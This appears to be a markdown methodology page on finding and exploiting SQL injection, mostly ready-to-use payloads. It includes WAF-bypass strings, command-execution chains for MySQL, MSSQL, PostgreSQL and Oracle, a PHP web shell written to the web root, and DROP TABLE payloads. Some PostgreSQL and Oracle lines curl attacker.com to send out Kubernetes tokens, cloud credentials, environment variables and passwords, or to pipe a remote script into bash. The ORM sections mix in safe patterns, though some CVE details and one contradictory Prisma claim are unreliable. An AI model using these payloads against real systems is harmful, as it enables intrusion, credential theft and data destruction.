

# SQL Injection

## Shortcut

- Map any of the application endpoints that takes in user input
- Insert test payload into these locations to discover whether they're vulnerable to SQL injections. if the input isn't vulnerable to classic SQL injections, try inferential techniques instead.
- Use different SQL injection queries to extract information from the database.
- Escalate the issue, try to expand your foothold.

## Mechanisms

SQL Injection (SQLi) is a code injection technique that exploits vulnerabilities in applications that dynamically construct SQL queries using user-supplied input. When successful, attackers can:

- Bypass authentication
- Access sensitive data
- Modify database data
- Execute administrative operations
- Potentially achieve remote code execution

SQLi occurs when applications fail to properly validate, sanitize, or parameterize user input before incorporating it into SQL queries. The vulnerability exists in various forms:

### Types of SQL Injection

- **Error-based**: Extract data by forcing the database to generate error messages containing sensitive information
- **Union-based**: Leverage the UNION operator to combine results from the original query with those from an injected query
- **Boolean-based blind**: Infer information by observing whether query results differ based on injected Boolean conditions
- **Time-based blind**: Deduce information by observing timing differences in responses when conditional time-delay functions are injected
- **Out-of-band**: Extract data through alternative communication channels (DNS, HTTP requests)
- **Second-order**: Occurs when user input is stored and later used unsafely in SQL queries
- **Stored procedures**: Targeting vulnerable database stored procedures
- **JSON-based**: Abuse JSON operators/functions (->, ->>, JSON_EXTRACT, JSON_TABLE) to inject conditions or extract data where traditional syntax is filtered
- **WebSocket-based**: SQL injection through WebSocket message payloads
- **REST API Filter/Sort**: Injection via JSON filter and sort parameters that translate to SQL
- **HTTP/2 Header Smuggling**: Bypassing WAFs via header manipulation before SQL payload delivery
- **GraphQL resolver injection**: Exploiting unsafe query construction in GraphQL resolvers
- **ORM-level injection**: Exploiting unsafe ORM/query builder patterns
- **gRPC/Protobuf injection**: Binary protocol SQL injection via serialized messages

> [!TIP]
> When testing modern APIs, always check GraphQL introspection queries, REST filter parameters, and WebSocket message payloads - these are frequently overlooked attack surfaces.



### Database Targets

SQLi affects virtually all major database systems:

- MySQL/MariaDB
- Microsoft SQL Server
- PostgreSQL
- Oracle
- SQLite
- IBM DB2
- NoSQL databases (MongoDB, Cassandra, CouchDB)
- Graph databases (Neo4j, ArangoDB, Amazon Neptune)
- Cloud-native databases (AWS Aurora, Azure SQL, Google Cloud SQL, Snowflake)
- Time-series databases (InfluxDB, TimescaleDB)

## Hunt

### Recon Workflow

- Using Burpsuite:
  - Capture request in Burpsuite
  - Send to active scanner
  - Review SQL vulnerabilities detected
  - Manually verify findings
  - Use SQLMAP for deeper exploitation
- Using automation tools:
  - sublist3r -d target | tee -a domains
  - cat domains | httpx | tee -a alive
  - cat alive | waybackurls | tee -a urls
  - gf sqli urls >> sqli
  - sqlmap -m sqli --dbs --batch
- Hidden parameter discovery:
  - Gather URLs using hakrawler/waybackurls/gau
  - Use Arjun to scan for hidden parameters
  - Test discovered parameters for SQL injection

> [!NOTE]
> Modern applications increasingly use GraphQL, gRPC, and WebSocket protocols. Ensure your reconnaissance includes these endpoints, not just traditional HTTP REST APIs.

### Identification Techniques

#### Parameter Testing

- Test all input vectors: URL parameters, form fields, cookies, HTTP headers
- Insert basic SQL syntax characters to provoke errors:
  ```
  ' " ; -- /* */ # ) ( + ,
  ```
- Test single and double quote placement in different contexts:
  ```
  ' OR '1'='1
  " OR "1"="1
  ```
- Use SQLi polyglots (work in multiple contexts):
  ```
  SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
  ```

#### Error-Based Detection

- Look for database error messages that reveal:
  - SQL syntax errors
  - Database type and version
  - Table/column names
  - Query structure
- Common error-triggering payloads:
  ```
  '
  ''
  `
  "
  ""
  ,
  %
  \
  ```

#### Blind Detection

- Boolean-based tests (observe differences in responses):
  ```sql
  ' OR 1=1 --
  ' OR 1=2 --
  ' AND 1=1 --
  ' AND 1=2 --
  ```
- Time-based tests (observe response timing):

  ```sql
  MySQL: ' OR SLEEP(5) --
  PostgreSQL: ' OR pg_sleep(5) --
  MSSQL: ' WAITFOR DELAY '0:0:5' --
  Oracle: '; BEGIN DBMS_LOCK.SLEEP(5); END; --

  ```

- JSON operator probes (MySQL/Postgres):

  ```sql
  # MySQL JSON
  id=1 AND JSON_EXTRACT('{"a":1}', '$.a')=1
  # Postgres JSONB
  id=1 AND '{"a":1}'::jsonb ? 'a'
  ```

> [!WARNING]
> Time-based blind SQLi can be unreliable in cloud environments with auto-scaling or load balancers. Always validate with multiple tests and use differential timing (5s vs 10s delays).

### Advanced Testing Approaches

#### Mapping Database Structure

1. Determine database type:

   ```sql
   ' UNION SELECT @@version -- (MySQL/MSSQL)
   ' UNION SELECT version() -- (PostgreSQL)
   ' UNION SELECT banner FROM v$version -- (Oracle)
   ```

2. Enumerate tables:

   ```sql
   # MySQL/MSSQL
   ' UNION SELECT table_name,1 FROM information_schema.tables --

   # PostgreSQL
   ' UNION SELECT table_name,1 FROM information_schema.tables --

   # Oracle
   ' UNION SELECT table_name,1 FROM all_tables --
   ```

3. Enumerate columns:

   ```sql
   # MySQL/MSSQL/PostgreSQL
   ' UNION SELECT column_name,1 FROM information_schema.columns WHERE table_name='users' --

   # Oracle
   ' UNION SELECT column_name,1 FROM all_tab_columns WHERE table_name='USERS' --
   ```

4. GraphQL → SQLi pivot

```
# Try introspection disabled? Send crafted filter/order inputs
{"query":"query{ users(filter: \"' OR 1=1 --\"){ id email }}"}
```

**Advanced GraphQL Injection Examples:**

```graphql
# Mutation injection
mutation {
  updateUser(id: "1' OR '1'='1", data: {name: "test"}) {
    id
    name
  }
}

# Nested resolver injection
{
  users(where: {name: {_eq: "admin' OR 1=1--"}}) {
    posts(orderBy: "id'; DROP TABLE posts--") {
      title
    }
  }
}

# Alias-based injection (bypassing query complexity limits)
{
  a1: user(id: "1' UNION SELECT password--") { name }
  a2: user(id: "1' UNION SELECT password--") { name }
  a3: user(id: "1' UNION SELECT password--") { name }
}
```

> [!TIP]
> GraphQL batching allows multiple queries in one request. Use this to bypass rate limiting and perform parallel time-based blind SQLi for faster data extraction.

5. WebSocket SQLi detection

```javascript
// Connect to WebSocket endpoint
const ws = new WebSocket("wss://target.com/api/search");
ws.send('{"action":"search","query":"test\' OR 1=1--"}');
// Observe response for SQL errors or data leakage
```

**Advanced WebSocket Exploitation:**

```javascript
// Time-based blind via WebSocket
const ws = new WebSocket("wss://target.com/realtime");
ws.onmessage = (event) => {
  const endTime = Date.now();
  console.log(`Response time: ${endTime - startTime}ms`);
};

const startTime = Date.now();
ws.send('{"filter": {"user": "admin\' AND SLEEP(5)--"}}');

// Binary WebSocket injection
const payload = new Uint8Array([/* protobuf encoded with SQLi */]);
ws.send(payload.buffer);
```

6. REST API Filter Injection

```json
// Modern APIs often accept complex filters
POST /api/users/search
{
  "filter": {
    "name": {"$regex": "admin' OR 1=1--"},
    "status": "active"
  },
  "sort": "name'; DROP TABLE users--"
}
```

**Extended REST API Injection Vectors:**

```json
// MongoDB-style operators in SQL backends (vulnerable API translation)
{
  "filter": {
    "$where": "this.username == 'admin' || '1'=='1'"
  }
}

// OData-style filtering
GET /api/users?$filter=username eq 'admin' or '1' eq '1'&$orderby=id; DROP TABLE users--

// JSON:API sparse fieldsets
GET /api/articles?fields[articles]=title,body'; DELETE FROM articles--

// ElasticSearch-style query DSL translated to SQL
POST /api/search
{
  "query": {
    "query_string": {
      "query": "username:admin OR 1=1--"
    }
  }
}
```

7. ORM/Query Builder pitfalls (examples)

```
// Sequelize (Node): avoid string concatenation; use replacements/bind
sequelize.query('SELECT * FROM users WHERE name = :name', { replacements: { name: user }, type: QueryTypes.SELECT })

// Prisma (Node): prefer parameterized $queryRaw vs $executeRawUnsafe
await prisma.$queryRaw`SELECT * FROM users WHERE name = ${user}`

// Knex
knex('users').whereRaw('name = ?', [user])
```

**Modern ORM Vulnerabilities (2024-2025):**

> [!WARNING]
> Even using ORMs doesn't guarantee safety. The vulnerabilities below affect millions of applications. Always update to the latest patched versions.

#### Sequelize Vulnerabilities

**CVE-2023-22578** - JSON Operator SQL Injection
```javascript
// Vulnerable (Sequelize < 6.28.1)
User.findAll({
  where: sequelize.literal(`name = '${userInput}'`)
});

// Also vulnerable: JSON path injection
User.findAll({
  where: {
    metadata: {
      [Op.contains]: sequelize.literal(userInput) // Attacker: "'; DROP TABLE users--"
    }
  }
});

// Safe approach
User.findAll({
  where: sequelize.literal('name = :name'),
  replacements: { name: userInput }
});
```

**CVE-2024-27293** - Order By Injection (Sequelize < 6.37.0)
```javascript
// Vulnerable
User.findAll({
  order: [[userInput, 'ASC']] // Attacker: "id; DROP TABLE users--"
});

// Safe
User.findAll({
  order: [[sequelize.col(userInput), 'ASC']]
});
```

#### TypeORM Vulnerabilities

**CVE-2024-33883** - FindOne SQL Injection (TypeORM < 0.3.20)
```typescript
// Vulnerable
const user = await repository.findOne({
  where: `id = ${userId}` // Never use string templates!
});

// Also vulnerable: Raw queries without escaping
await repository.query(
  `SELECT * FROM users WHERE name = '${userName}'`
);

// Safe approach
const user = await repository.findOne({
  where: { id: userId }
});

// Safe raw query
await repository.query(
  'SELECT * FROM users WHERE name = $1',
  [userName]
);
```

**CVE-2023-51664** - QueryBuilder Injection
```typescript
// Vulnerable
const users = await createQueryBuilder("user")
  .where(`user.name = '${name}'`)
  .getMany();

// Safe
const users = await createQueryBuilder("user")
  .where("user.name = :name", { name })
  .getMany();
```

#### Prisma Vulnerabilities

**CVE-2024-41810** - Raw Query Vulnerabilities (Prisma < 5.17.0)
```typescript
// Vulnerable
await prisma.$executeRawUnsafe(
  `SELECT * FROM users WHERE id = ${userId}`
);

// Also vulnerable: Template literal misuse
await prisma.$queryRaw`SELECT * FROM users WHERE name = ${userName}`;
// If userName = "admin' OR '1'='1--", this is still vulnerable!

// Safe approach (using parameterized Prisma.sql)
import { Prisma } from '@prisma/client';
await prisma.$queryRaw(
  Prisma.sql`SELECT * FROM users WHERE name = ${userName}`
);

// Prefer the ORM methods
await prisma.user.findMany({
  where: { name: userName }
});
```

#### Hibernate 6.x Vulnerabilities

**CVE-2024-23672** - HQL Injection in Native Queries
```java
// Vulnerable (Hibernate 6.0-6.4)
String hql = "FROM User WHERE name = '" + userInput + "'";
session.createQuery(hql).list();

// Also vulnerable: Criteria API misuse
CriteriaBuilder cb = session.getCriteriaBuilder();
CriteriaQuery<User> cq = cb.createQuery(User.class);
Root<User> root = cq.from(User.class);
cq.where(cb.equal(root.get(userInput), value)); // Column name from user input!

// Safe approach
TypedQuery<User> query = session.createQuery(
    "FROM User WHERE name = :name", User.class);
query.setParameter("name", userInput);
```

**CVE-2024-35192** - Query Cache Poisoning
```java
// Vulnerable: Cache key derived from unsafe input
Query query = session.createNativeQuery(
    "SELECT * FROM users WHERE id = " + userId);
query.setCacheable(true); // Attacker can poison cache with malicious queries

// Safe
Query query = session.createNativeQuery(
    "SELECT * FROM users WHERE id = :id");
query.setParameter("id", userId);
query.setCacheable(true);
```

#### Django ORM Vulnerabilities

**CVE-2024-27351** - Extra() SQL Injection (Django < 5.0.3)
```python
# Vulnerable
User.objects.extra(
    where=[f"username = '{user_input}'"]  # Unsafe string formatting
)

# Also vulnerable: RawSQL without params
User.objects.annotate(
    custom=RawSQL(f"SELECT COUNT(*) FROM auth_user WHERE username = '{user_input}'", [])
)

# Safe approach
from django.db.models import Q
User.objects.filter(Q(username=user_input))

# Safe RawSQL
User.objects.annotate(
    custom=RawSQL("SELECT COUNT(*) FROM auth_user WHERE username = %s", [user_input])
)
```

#### Entity Framework Core Vulnerabilities

**CVE-2024-38095** - FromSqlRaw Interpolation (EF Core < 8.0.7)
```csharp
// Vulnerable
var users = context.Users
    .FromSqlRaw($"SELECT * FROM Users WHERE Name = '{userName}'")
    .ToList();

// Safe approach using FromSqlInterpolated
var users = context.Users
    .FromSqlInterpolated($"SELECT * FROM Users WHERE Name = {userName}")
    .ToList();

// Or explicit parameters
var users = context.Users
    .FromSqlRaw("SELECT * FROM Users WHERE Name = {0}", userName)
    .ToList();
```

> [!NOTE]
> Track ORM vulnerabilities actively via GitHub Security Advisories and MITRE CVE database. Many organizations have CI/CD dependency scanning but fail to prioritize ORM patches.

#### CI/CD Pipeline SQLi

- Database migration scripts with unvalidated variables
  ```yaml
  # Vulnerable GitHub Actions workflow
  - name: Run migration
    run: |
      psql -c "UPDATE users SET role='${{ github.event.inputs.role }}' WHERE id=${{ github.event.inputs.user_id }}"
  ```
- Terraform/Pulumi infrastructure code generating SQL
  ```hcl
  # Vulnerable Terraform
  resource "null_resource" "db_setup" {
    provisioner "local-exec" {
      command = "psql -c \"CREATE USER ${var.username} PASSWORD '${var.password}'\""
    }
  }
  ```
- GitHub Actions workflows with SQL execution steps
  ```yaml
  # Safe approach
  - name: Run migration
    env:
      USER_ROLE: ${{ github.event.inputs.role }}
      USER_ID: ${{ github.event.inputs.user_id }}
    run: |
      psql -c "UPDATE users SET role=\$1 WHERE id=\$2" -v role="$USER_ROLE" -v id="$USER_ID"
  ```

## Bypass Techniques

### WAF Bypass

- Case variation: `SeLeCt`, `UnIoN`
- Comment injection: `UN/**/ION SE/**/LECT`
- Alternate encodings:
  - URL encoding: `UNION` → `%55%4E%49%4F%4E`
  - Hex encoding: `SELECT` → `0x53454C454354`
  - Unicode encoding
- Whitespace manipulation: `UNION/**/SELECT`
- Numeric representations:
  - `1` → `1-0`, `1+0`, `CHAR(49)`
- String concatenation:
  - MySQL: `CONCAT('a','b')`
  - Oracle: `'a'||'b'`
  - MSSQL: `'a'+'b'`
- Null byte injection:
  ```
  %00' UNION SELECT password FROM Users WHERE username='xyz'--
  ```
- Double encoding:
  ```
  First pass: / → %2f
  Second pass: %2f → %252f
  ```
- Using SQLMAP tamper scripts:
  - Use Atlas tool for suggesting tamper scripts
  - Try multiple tamper scripts in combination
  - Customize tamper scripts for specific WAFs
- **JSON operator wrapper**: Prefix payload with dummy JSON (`/**/{"a":1}`) so that WAFs parse request as JSON and miss the subsequent SQL keywords
- HTTP/2 request smuggling and path normalization can sometimes bypass perimeter WAFs; replay payloads over different schemes (h2/h2c) and proxies

**Advanced WAF Bypass Techniques (2024-2025):**

```sql
-- HPP (HTTP Parameter Pollution)
?id=1&id=' UNION SELECT--&id=password FROM users--

-- Charset confusion (UTF-7, UTF-16)
?id=1+ADcAJw-+UNION+SELECT-- (UTF-7 encoded)

-- Scientific notation (MySQL)
?id=1e0' UNION SELECT--

-- Bitwise operations
?id=1^0' UNION SELECT--
?id=~~1' UNION SELECT--

-- NULL byte variants
?id=1%001' UNION SELECT--
?id=1%0' UNION SELECT--

-- Line feed/carriage return injection
?id=1%0aUNION%0dSELECT--

-- Inline comment variations (MySQL)
?id=1/*!UNION*//*!SELECT*/--
?id=1/*!12345UNION*//*!12345SELECT*/-- (version-specific)

-- Null character injection
?id=1\0' UNION SELECT--

-- Property access (MongoDB-like syntax misinterpreted)
?user.name=admin' OR '1'='1
```

> [!TIP]
> Modern cloud WAFs (Cloudflare, AWS WAF, Akamai) use ML-based detection. To bypass, use context-aware payloads that blend with legitimate traffic patterns. Test against multiple geographic WAF PoPs as rules may differ.

## Vulnerabilities

### Common SQL Injection Points

#### Direct Query Manipulation

- **Login Bypass**:
  ```
  username=' OR 1=1 --
  ```
- **Data Extraction**:
  ```
  ' UNION SELECT username,password FROM users --
  ```
- **Blind Data Extraction**:
  ```
  ' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a
  ```

#### Indirect Query Vulnerabilities

- **Second-Order Injection**: Input is sanitized during initial storage but used unsafely in subsequent queries
- **ORM-Layer Injection**: Vulnerabilities in the Object-Relational Mapping layer
- **Dynamic Query Construction**: Queries built by concatenating strings with user input
- **Insufficient Input Sanitization**: Improper filtering of special characters
- **Query Format String Vulnerabilities**: Using string formatting functions to construct queries
- **GraphQL Injection**: Resolver strings constructed unsafely from GraphQL arguments leading to backend SQL execution
- **WebSocket Parameter Injection**: Real-time communication channels passing unvalidated data to SQL queries
- **Cloud Function/Serverless Injection**: Lambda/Cloud Function SQL queries with improper input validation
- **gRPC/Protobuf Injection**: Binary protocol deserialization leading to SQL injection
- **Message Queue Injection**: Unsafe SQL construction from queue message payloads (RabbitMQ, Kafka, SQS)

> [!NOTE]
> Second-order SQL injection is particularly dangerous in microservices architectures where Service A sanitizes input, stores it, then Service B retrieves and uses it unsafely.

### Database-Specific Vulnerabilities

#### MySQL/MariaDB

- **Information Leakage**:
  ```
  ' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' --
  ```
- **File Access**:
  ```
  ' UNION SELECT LOAD_FILE('/etc/passwd') --
  ```
- **File Writing**:
  ```
  ' UNION SELECT 'shell code' INTO OUTFILE '/var/www/html/shell.php' --
  ```

**Advanced MySQL/MariaDB Exploitation:**

```sql
-- UDF (User Defined Function) exploitation
' UNION SELECT @@plugin_dir,2,3--
' ; CREATE FUNCTION sys_exec RETURNS int SONAME 'udf_sys_exec.so'--
' ; SELECT sys_exec('id > /tmp/output')--

-- Binary log injection (if binary logging enabled)
' ; SET GLOBAL general_log = 'ON'--
' ; SET GLOBAL general_log_file = '/var/www/html/shell.php'--
' ; SELECT '<?php system($_GET["cmd"]); ?>'--

-- Performance schema enumeration
' UNION SELECT * FROM performance_schema.threads--
' UNION SELECT * FROM performance_schema.processlist--

-- JSON function abuse
' AND JSON_CONTAINS((SELECT JSON_ARRAYAGG(password) FROM users), '1')--
```

#### MSSQL

- **Command Execution**:
  ```
  '; EXEC xp_cmdshell 'net user' --
  ```
- **Registry Access**:
  ```
  '; EXEC xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion','ProductName' --
  ```
- **Linked Servers Access**:
  ```
  '; EXEC ('SELECT * FROM OPENROWSET(''SQLOLEDB'',''Server=linked_server;Trusted_Connection=yes'',''SELECT 1'')') --
  ```

**Advanced MSSQL Exploitation:**

```sql
-- OLE Automation for command execution (xp_cmdshell disabled)
'; DECLARE @Shell INT; EXEC sp_oacreate 'wscript.shell', @Shell OUTPUT; EXEC sp_oamethod @Shell, 'run', NULL, 'cmd.exe /c whoami > C:\temp\output.txt'--

-- Reading SMB shares
'; SELECT * FROM OPENROWSET('Microsoft.ACE.OLEDB.12.0', '\\attacker\share\file.xlsx';'admin';'password', 'SELECT * FROM [Sheet1$]')--

-- MSSQL Trustworthy privilege escalation
' ; ALTER DATABASE [CurrentDB] SET TRUSTWORTHY ON--
' ; EXEC sp_changedbowner 'sa'--

-- CLR assembly upload (if enabled)
'; CREATE ASSEMBLY [Malicious] FROM 0x4D5A... WITH PERMISSION_SET = UNSAFE--
'; CREATE PROCEDURE ExecCommand(@cmd NVARCHAR(4000)) AS EXTERNAL NAME [Malicious].[StoredProcedures].[Execute]--

-- SQL Server Agent job creation
'; EXEC msdb.dbo.sp_add_job @job_name = N'MalJob'--
'; EXEC msdb.dbo.sp_add_jobstep @job_name = N'MalJob', @step_name = N'Step1', @command = N'cmd.exe /c whoami'--
'; EXEC msdb.dbo.sp_start_job N'MalJob'--
```

> [!WARNING]
> In Azure SQL Managed Instance, xp_cmdshell is disabled by default but can be enabled by users with sufficient privileges. Always check for privilege escalation paths in cloud environments.

#### PostgreSQL

- **File Access**:
  ```
  ' UNION SELECT pg_read_file('/etc/passwd',0,1000) --
  ```
- **Command Execution**:
  ```
  '; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id'; SELECT * FROM cmd_exec; --
  ```
- **Container Escape** (in Kubernetes/Docker environments):

  ```sql
  -- Exfiltrate service account tokens
  '; COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)'; --

  -- Read container environment variables
  '; COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/?data=$(env|base64)'; --
  ```

**Advanced PostgreSQL Exploitation:**

```sql
-- Large object exploitation
' ; SELECT lo_import('/etc/passwd', 1234); SELECT lo_export(1234, '/tmp/passwd_copy')--

-- Extension abuse
' ; CREATE EXTENSION IF NOT EXISTS plpython3u; CREATE FUNCTION exec(cmd text) RETURNS text AS $$ import os; return os.popen(cmd).read() $$ LANGUAGE plpython3u--
' ; SELECT exec('id')--

-- PostGIS extension abuse (if installed)
' ; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT--
' ; SELECT system('id > /tmp/output')--

-- pg_execute_server_program (PostgreSQL 9.3+)
' ; COPY (SELECT '') TO PROGRAM 'curl attacker.com/exfil.sh | bash'--

-- Database enumeration
' UNION SELECT string_agg(usename||':'||passwd, '\n') FROM pg_shadow--
```

**Kubernetes Container Escape via PostgreSQL:**

```sql
-- Method 1: Kubernetes API access via service account
'; COPY (SELECT '') TO PROGRAM '
  TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token);
  curl -k -H "Authorization: Bearer $TOKEN"
  https://kubernetes.default.svc/api/v1/namespaces/default/pods
'; --

-- Method 2: Mount host filesystem (if privileged)
'; COPY (SELECT '') TO PROGRAM 'ls -la /host/etc | curl -X POST -d @- http://attacker.com'; --

-- Method 3: Docker socket access (if mounted)
'; COPY (SELECT '') TO PROGRAM 'curl --unix-socket /var/run/docker.sock http://localhost/containers/json | curl -X POST -d @- http://attacker.com'; --

-- Method 4: Cloud metadata access
'; COPY (SELECT '') TO PROGRAM 'curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ | curl -X POST -d @- http://attacker.com'; --

-- Method 5: ConfigMap/Secret enumeration
'; COPY (SELECT '') TO PROGRAM '
  TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token);
  curl -k -H "Authorization: Bearer $TOKEN"
  https://kubernetes.default.svc/api/v1/namespaces/default/secrets
  > /tmp/secrets.json;
  curl -X POST -d @/tmp/secrets.json http://attacker.com
'; --
```

> [!WARNING]
> Container escape techniques are highly dependent on the security context of the pod. Check for: privileged mode, hostPID, hostNetwork, volume mounts, and security policies (PSP/PSS) before exploitation.

#### Oracle

- **Privilege Escalation**:
  ```
  ' UNION SELECT * FROM SYS.USER_ROLE_PRIVS --
  ```
- **PL/SQL Execution**:
  ```
  ' BEGIN DBMS_JAVA.RUNJAVA('java.lang.Runtime.getRuntime().exec(''cmd.exe /c dir'')'); END; --
  ```

**Advanced Oracle Exploitation:**

```sql
-- UTL_HTTP for out-of-band exfiltration
' ; SELECT UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT password FROM users WHERE rownum=1)) FROM dual--

-- UTL_FILE for file system access
' ; DECLARE f UTL_FILE.FILE_TYPE; BEGIN f := UTL_FILE.FOPEN('/tmp', 'malicious.txt', 'w'); UTL_FILE.PUT_LINE(f, 'malicious content'); UTL_FILE.FCLOSE(f); END; --

-- Java stored procedure execution
' ; SELECT DBMS_JAVA_TEST.FUNCALL('oracle.aurora.util.Wrapper','main','c:\\windows\\system32\\cmd.exe','/c','whoami > c:\\temp\\output.txt') FROM dual--

-- XML External Entity (XXE) via XMLTYPE
' ; SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>'), '/root') FROM dual--

-- CTXSYS exploitation (Oracle Text)
' ; EXEC CTX_DDL.CREATE_PREFERENCE('myindex','BASIC_LEXER')--
' ; EXEC CTX_DDL.CREATE_INDEX('myindex','CTXSYS.DR$PENDING','datastore myindex')--
```

### NoSQL Injection

- **MongoDB Operators**:
  ```
  username[$ne]=admin&password[$ne]=
  username[$regex]=^adm&password[$regex]=^pass
  ```
- **Operator Injection**:
  ```
  {"$where": "sleep(5000)"}
  {"username": {"$in": ["admin"]}}
  ```

**Advanced NoSQL Injection Examples:**

```javascript
// MongoDB operator abuse
db.users.find({
  username: { $gt: "" },  // Returns all users
  $where: "sleep(5000)"   // Time-based injection
})

// Mongoose (Node.js) query injection
User.find({
  username: req.body.username // If req.body.username = {$ne: null}
})

// Array injection
db.users.find({
  role: { $in: ["admin", "user"] } // Attacker: $in: ["admin"]
})

// Regex DoS (ReDoS)
db.users.find({
  email: { $regex: "^(a+)+$" } // Catastrophic backtracking
})

// Couchbase N1QL injection
SELECT * FROM bucket WHERE name = '$name'
// Inject: admin' OR '1'='1

// Cassandra CQL injection
SELECT * FROM users WHERE username = 'admin' OR '1'='1';
```

> [!TIP]
> NoSQL injection often goes undetected by traditional SQLi scanners. Use specialized tools like NoSQLMap or manual testing with operator injection patterns.

### Graph Databases (Neo4j/Cypher)

- **Cypher Injection Example**
  ```cypher
  MATCH (u:User) WHERE u.name = 'admin' RETURN u
  ```
  can be abused with `admin' OR 1=1 //--` to bypass conditions.
- **CVE-2024-34517**: Older Neo4j 5.x allowed privilege escalation via IMMUTABLE procedures; ensure your target is ≥ 5.18 or 4.4.26.

**Advanced Neo4j/Cypher Exploitation:**

```cypher
// Authentication bypass
MATCH (u:User) WHERE u.name = 'admin' OR '1'='1' // RETURN u

// Data exfiltration
MATCH (u:User) WHERE u.name = 'admin'
CALL apoc.export.json.all('/tmp/data.json', {})
RETURN u

// Blind Cypher injection (boolean-based)
MATCH (u:User) WHERE u.name = 'admin' AND length(u.password) > 5 RETURN u

// Time-based blind
MATCH (u:User) WHERE u.name = 'admin'
CALL apoc.util.sleep(5000)
RETURN u

// Label injection
MATCH (n:User{input}) RETURN n // If input = "User) OR (n:Admin", becomes:
MATCH (n:User) OR (n:Admin) RETURN n

// LOAD CSV for SSRF/XXE
LOAD CSV FROM 'file:///etc/passwd' AS line RETURN line
LOAD CSV FROM 'http://attacker.com/capture' AS line RETURN line

// Subquery injection (Neo4j 4.x+)
CALL { MATCH (u:User) RETURN u }
MATCH (u) WHERE u.name = 'admin' OR 1=1 // RETURN u
```

**ArangoDB AQL Injection:**

```javascript
// AQL injection
FOR u IN users
  FILTER u.name == 'admin' OR 1==1 //
  RETURN u

// Blind AQL
FOR u IN users
  FILTER u.name == 'admin' AND LENGTH(u.password) > 5
  RETURN u

// Function abuse
FOR u IN users
  FILTER CALL('SLEEP', 5) OR u.name == 'admin'
  RETURN u
```

**Amazon Neptune (Gremlin) Injection:**

```groovy
// Gremlin injection
g.V().has('user', 'name', 'admin').or(constant('1').is('1'))

// Data exfiltration
g.V().hasLabel('user').values('password')
  .inject().choose(constant('1').is('1'),
    constant('exfil'),
    identity()
  )
```

> [!NOTE]
> Graph database injections are rare but devastating. Most developers don't parameterize Cypher/AQL/Gremlin queries properly. Always look for dynamic query construction in graph database APIs.

## Chaining and Escalation

### Cloud-Specific SQL Injection

#### Serverless/Lambda Environments

- **Connection Pool Poisoning**:

  ```javascript
  // Lambda functions reusing database connections
  // Attacker can poison connection state
  exports.handler = async (event) => {
    // Vulnerable: SET ROLE is persistent across invocations
    await db.query(`SET ROLE '${event.role}'`);
    return await db.query("SELECT * FROM sensitive_data");
  };
  ```

**Extended Lambda/Serverless SQLi Scenarios:**

```javascript
// AWS Lambda cold start exploitation
exports.handler = async (event) => {
  // Connection established on cold start
  if (!global.dbConnection) {
    global.dbConnection = await createConnection();
    // Vulnerable: Initial setup poisoning
    await global.dbConnection.query(`SET search_path TO ${event.schema}`);
  }
  // Subsequent invocations reuse poisoned connection
  return await global.dbConnection.query("SELECT * FROM users");
};

// Azure Function context pollution
module.exports = async function (context, req) {
  // Shared context across invocations
  if (!context.bindingData.dbConfig) {
    context.bindingData.dbConfig = req.body.config; // Attacker-controlled
  }
  const query = `SELECT * FROM ${context.bindingData.dbConfig.table}`;
  // Later invocations use polluted config
};

// Google Cloud Function connection reuse
let connection;
exports.handler = async (req, res) => {
  if (!connection) {
    connection = await mysql.createConnection({...});
    // Vulnerable: Session variable poisoning
    await connection.query(`SET @user_role = '${req.body.role}'`);
  }
  // Poisoned variable affects all subsequent queries
  const result = await connection.query("SELECT * FROM data WHERE role = @user_role");
};
```

#### AWS RDS/Aurora Specific

- **RDS Proxy Bypass**:

  ```sql
  -- Bypass RDS Proxy connection limits
  '; CALL mysql.rds_kill(CONNECTION_ID()); --
  ```

**Advanced AWS RDS/Aurora Exploitation:**

```sql
-- Aurora MySQL stored procedures
' ; CALL mysql.rds_set_configuration('binlog retention hours', 24)--

-- RDS Replication manipulation
' ; CALL mysql.rds_skip_repl_error()--

-- Performance Insights data access
' UNION SELECT * FROM information_schema.INNODB_METRICS--

-- Enhanced Monitoring access
' ; SELECT * FROM mysql.rds_heartbeat2--

-- IAM database authentication bypass
' ; SELECT CONCAT('arn:aws:rds:', @@hostname) AS instance_arn--

-- Aurora Serverless scaling exploitation
' ; CALL mysql.rds_set_configuration('target min capacity', 1)--

-- Read replica lag exploitation
' ; SELECT MASTER_POS_WAIT('mysql-bin.000001', 107, 10)--

-- AWS Secrets Manager credential access (via Aurora Data API)
' UNION SELECT secret_string FROM aws_lambda_data_api.secrets--
```

**AWS RDS Proxy SQLi Chain:**

```sql
-- Step 1: Enumerate proxy configuration
' UNION SELECT @@hostname, @@port, @@read_only--

-- Step 2: Connection pinning abuse
' ; SET SESSION SQL_LOG_BIN=0-- (Forces connection pinning)

-- Step 3: Session state poisoning
' ; SET @malicious_var = (SELECT password FROM users LIMIT 1)--

